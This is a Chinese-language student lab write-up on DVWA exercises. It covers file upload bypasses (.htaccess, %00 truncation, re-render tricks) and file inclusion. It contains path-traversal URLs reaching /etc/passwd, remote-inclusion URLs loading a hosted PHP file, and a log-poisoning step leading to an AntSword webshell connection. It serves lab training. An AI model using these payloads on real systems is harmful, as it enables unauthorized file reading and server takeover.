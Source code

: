 1. 文件上传
- 客户端绕过练习。
  
  * ![58682dfc-8253-4249-bb64-40b7a1cab3e5](file:///C:/Users/m1521/Pictures/Typedown/58682dfc-8253-4249-bb64-40b7a1cab3e5.png)
  
  * ![3ea3bc45-3601-46dc-baae-8589672ed15b](file:///C:/Users/m1521/Pictures/Typedown/3ea3bc45-3601-46dc-baae-8589672ed15b.png)
    ![d187397c-221d-4979-8f5d-ae54a246a98f](file:///C:/Users/m1521/Pictures/Typedown/d187397c-221d-4979-8f5d-ae54a246a98f.png)
    ![d48b4b3d-2270-4313-b694-d7e37248fe11](file:///C:/Users/m1521/Pictures/Typedown/d48b4b3d-2270-4313-b694-d7e37248fe11.png)
* 服务端黑名单绕过：.htaccess 文件绕过。
  
  * ![4f500473-22de-49d5-9891-c60aa80bd0da](file:///C:/Users/m1521/Pictures/Typedown/4f500473-22de-49d5-9891-c60aa80bd0da.png)

* 服务端白名单绕过：%00 截断绕过，要求虚拟机中搭建实验环境，分别实现 GET、POST 方法的绕过。
  环境配置问题，但是可以看到%00 截断绕过成功，文件已经正确修改成1.php
  
  * ![f312104c-3c65-4788-9613-77e023e14ff3](file:///C:/Users/m1521/Pictures/Typedown/f312104c-3c65-4788-9613-77e023e14ff3.png)
  * ![0f1ec398-6e82-474c-a2f1-efaefd1dd729](file:///C:/Users/m1521/Pictures/Typedown/0f1ec398-6e82-474c-a2f1-efaefd1dd729.png)
  * 而且WWW根目录下也没有相对应的文件夹和文件，上传不上去

* 二次渲染绕过（很玄学）
  
  * ![ba4dee05-0ddf-4c99-8f3f-1018ba1041b5](file:///C:/Users/m1521/Pictures/Typedown/ba4dee05-0ddf-4c99-8f3f-1018ba1041b5.png)
2. 文件包含
* DVWA 环境下包含其他目录的任意 3 个文件，要求使用相对路径。
  
  * http://192.168.79.131:8081/vulnerabilities/fi/?page=../../phpinfo.php
  
  * ![48d7d849-062f-43d8-abcf-e68c722badec](file:///C:/Users/m1521/Pictures/Typedown/48d7d849-062f-43d8-abcf-e68c722badec.png)http://192.168.79.131:8081/vulnerabilities/fi/?page=../../../../../../../etc/passw
  
  * ![c059cba0-406c-4e0b-bd8a-8c2faac8dc63](file:///C:/Users/m1521/Pictures/Typedown/c059cba0-406c-4e0b-bd8a-8c2faac8dc63.png)
    http://192.168.79.131:8081/vulnerabilities/fi/?page=file4.php
    ![bf627478-40d6-4553-8057-70a6c57aff4a](file:///C:/Users/m1521/Pictures/Typedown/bf627478-40d6-4553-8057-70a6c57aff4a.png)

* 远程文件包含。
  
  * 1.php and info.txt 包含一句话木马
    
    <?php phpinfo();?>
  
  * 构造（http://192.168.79.131:8081/vulnerabilities/fi/?page=http://192.168.79.131:8083/upload/1.php）**不能获取靶机的phpinfo**
  
  * 随机继续构建（http://192.168.79.131:8081/vulnerabilities/fi/?page=http://192.168.79.131:8083/upload/info.txt）
  
  * ![95b6fc1e-f7e4-41e1-91b4-7f4c20469ce6](file:///C:/Users/m1521/Pictures/Typedown/95b6fc1e-f7e4-41e1-91b4-7f4c20469ce6.png)

* 中间件日志包含绕过，要求使用蚁剑连接成功。

    phpinfo()；插入成功![0d21ea21-7335-45f4-8f82-e5138218721d](file:///C:/Users/m1521/Pictures/Typedown/0d21ea21-7335-45f4-8f82-e5138218721d.png)

![14abb16b-2e09-4ac3-a8f2-ac80fcc5ba1b](file:///C:/Users/m1521/Pictures/Typedown/14abb16b-2e09-4ac3-a8f2-ac80fcc5ba1b.png)

上蚁剑

![71fe2f64-6e63-4497-b6bc-c4471bdb1579](file:///C:/Users/m1521/Pictures/Typedown/71fe2f64-6e63-4497-b6bc-c4471bdb1579.png)

![55f2c107-0d56-4600-bcc2-ce557bbf389c](file:///C:/Users/m1521/Pictures/Typedown/55f2c107-0d56-4600-bcc2-ce557bbf389c.png)
